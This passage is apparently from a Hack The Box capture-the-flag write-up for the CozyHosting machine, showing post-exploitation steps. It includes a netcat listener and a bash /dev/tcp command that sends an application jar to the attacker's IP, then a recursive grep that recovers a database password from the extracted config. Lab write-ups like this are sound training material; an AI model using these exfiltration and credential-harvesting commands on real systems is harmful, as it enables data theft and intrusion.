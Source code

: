 ```bash
}
server {
        listen 80;
        server_name cozyhosting.htb;
        location / {
                proxy_pass http://localhost:8080;
        }
}
```

Transfer the jar file back to our host

```bash
┌──(bravosec㉿fsociety)-[~/htb/CozyHosting]
└─$ nc -lvnp 443 > cloudhosting-0.0.1.jar
listening on [any] 443 ...
```

I noticed that my current shell wasn't **bash**, the `/dev/tcp/` redirector needs **bash** to work

```bash
app@cozyhosting:/app$ echo $SHELL
/bin/sh
app@cozyhosting:/app$ bash -c 'cat cloudhosting-0.0.1.jar > /dev/tcp/10.10.14.34/443'
```

Extract the jar file

```bash
┌──(bravosec㉿fsociety)-[~/htb/CozyHosting]
└─$ mkdir cloudhosting

┌──(bravosec㉿fsociety)-[~/htb/CozyHosting]
└─$ mv cloudhosting-0.0.1.jar cloudhosting

┌──(bravosec㉿fsociety)-[~/htb/CozyHosting]
└─$ cd cloudhosting

┌──(bravosec㉿fsociety)-[~/htb/CozyHosting/cloudhosting]
└─$ tar -xvf cloudhosting-0.0.1.jar
```

Search for password string and found credential for `postgres`

```bash
┌──(bravosec㉿fsociety)-[~/htb/CozyHosting/cloudhosting]
└─$ grep -rin passw
...
BOOT-INF/classes/application.properties:12:spring.datasource.password=Vg&nvzAQ7XxR
```

```bash
vi BOOT-INF/classes/application.properties
```

```bash
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
